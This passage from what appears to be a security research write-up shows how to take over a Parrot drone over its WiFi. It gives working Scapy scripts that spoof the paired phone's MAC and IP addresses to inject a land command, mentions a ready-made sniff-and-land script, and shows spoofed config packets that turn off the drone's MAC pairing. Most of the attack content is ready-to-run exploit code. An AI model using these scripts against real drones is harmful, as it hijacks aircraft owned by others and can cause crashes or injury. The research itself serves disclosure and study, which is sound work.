 ```bash
# Allows incoming connections from anywhere outside
iptables -P INPUT ACCEPT
fi
```
But this doesn't prevent anyone from connecting to the drone's WiFi, the drone will only drop the packets if the MAC address is not the one it is paired with (and if the accessed service is not icmp, ftp or nfs). So of course if we would use the same script as before, that won't work, since the drone would drop our packets. But we can simply spoof the source MAC address too:
```python
from scapy.all import *
from time import sleep

srcIP = '192.168.1.2' # my phone's IP
dstIP = '192.168.1.1' # drone's IP
srcPort = 5556 # source port
dstPort = 5556 # destination port
srcMAC = '58:44:98:13:80:6c' # my phone's MAC
dstMAC = '90:03:b7:e8:55:72' # drone's MAC

payload = "AT*REF=1000000,290717696\r"
print payload
spoofed_packet = Ether(src=srcMAC, dst=dstMAC) / IP(src=srcIP, dst=dstIP) / UDP(sport=srcPort, dport=dstPort) / payload
sendp(spoofed_packet, iface="wlan0")
```
For the demo I again sent 10 packets, then restored the control after 5 seconds. [Here](code/2.py) is the code.

Of course manually setting the MAC and IP isn't the most convenient thing, so I wrote a script which sniffs for parrot packets, then parses the IP and MAC addresses and send the land packets using those addresses. It is available [here](code/sniff_and_land.py). All you need to do is connect to a Parrot's WiFi and then run the script.

## Turn pairing off

So we saw, that pairing won't stop us from taking over the drone and make it do whatever we want it to do, but it successfully stops us from accessing it via telnet. Of course we could change our MAC address, but I found a way to simply turn off the feature remotely. Let's look at the communication when the feature is enabled:

![Turn on pairing](img/wireshark2.jpg?raw=true "Wireshark capture - Turn on pairing")

So the same UDP based protocol is used to turn on pairing as we just spoofed above! To turn off pairing all we need to do is to set `network:owner_mac` to `00:00:00:00:00:00`. Actually the things are not exactly the same as above, because the CONFIG packet will be only accepted if the previous packet is a CONFIG_IDS with the proper session, user and application id. So first we need to sniff these id's, and then spoof the two control packets (they can be in one UDP packet, as it can be seen in the Wireshark capture. Simply separate them with \r):
```python
from scapy.all import *
from time import sleep

srcIP = '192.168.1.2'
dstIP = '192.168.1.1'
srcPort = 5556
dstPort = 5556
srcMAC = '58:44:98:13:80:6c'
dstMAC = '90:03:b7:e8:55:72'

macfilteroff = "AT*CONFIG_IDS=1,\"6d284a13\",\"6b8ae8b1\",\"96e3654b\"\rAT*CONFIG=2,\"network:owner_mac\",\"00:00:00:00:00:00\"\r" 

payload = macfilteroff
```